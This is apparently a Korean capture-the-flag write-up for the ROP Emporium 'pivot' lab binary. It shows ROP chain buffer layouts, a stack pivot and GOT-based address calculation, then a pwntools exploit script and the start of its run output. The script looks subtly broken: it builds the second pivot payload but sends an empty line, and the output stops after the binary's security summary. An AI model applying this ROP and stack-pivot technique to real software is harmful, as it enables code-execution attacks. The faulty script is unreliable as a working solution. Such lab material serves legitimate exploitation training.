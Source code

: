 이 점과 제공된 가젯들을 이용하면 플래그를 leak 할 수 있다.

버퍼 구조(입력하는 순서):
<table>
    <tr><td>ret for xchg : foothold_function@plt</td></tr>
    <tr><td>ret for foothold_function@plt : pop_rax</td></tr>
    <tr><td>param[0] : foothold_function@got</td></tr>
    <tr><td>ret for pop_rax : mov_rax</td></tr>
    <tr><td>ret for mov_rax : pop_rbp</td></tr>
    <tr><td>param[0] : 0x14e</td></tr>
    <tr><td>ret for pop_rbp : add_rax_rbp</td></tr>
    <tr><td>ret for add_rax_rbp : call_rax</td></tr>
</table>

<table>
    <tr><td>dummy data : (0x28 bytes)</td></tr>
    <tr><td>ret for pwnme : pop_rax</td></tr>
    <tr><td>param[0] : pivot_addr</td></tr>
    <tr><td>ret for pop_rax : xchg</td></tr>
</table>

exploit.py:
```python
from pwn import *

e = ELF('./pivot')
l = ELF('./libpivot.so')

add_rax_rbp = 0x400b09
mov_rax = 0x400b05
pop_rax = 0x400b00
call_rax = 0x40098e
pop_rbp = 0x400900
xchg = 0x400b02

p = process(['./pivot'], env = {'LD_PRELOAD':'./libpivot.so'})
p.recvuntil(': ')
pivot_addr = int(p.recvuntil('\n')[:-1], 16)
p.recvuntil('> ')

pl = p64(e.plt['foothold_function']) + p64(pop_rax)
pl += p64(e.got['foothold_function']) + p64(mov_rax)
pl += p64(pop_rbp)
pl += p64(0x14e) + p64(add_rax_rbp)
pl += p64(call_rax)

p.sendline(pl)
p.recvuntil('> ')

pl = 'a'*0x28 + p64(pop_rax)
pl += p64(pivot_addr) + p64(xchg)

print ''
p.sendline()
p.interactive()
```
출력:
```bash
junheah@ubuntu:~/ropemp/pivot$ python exp.py
[*] '/home/junheah/ropemp/pivot/pivot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```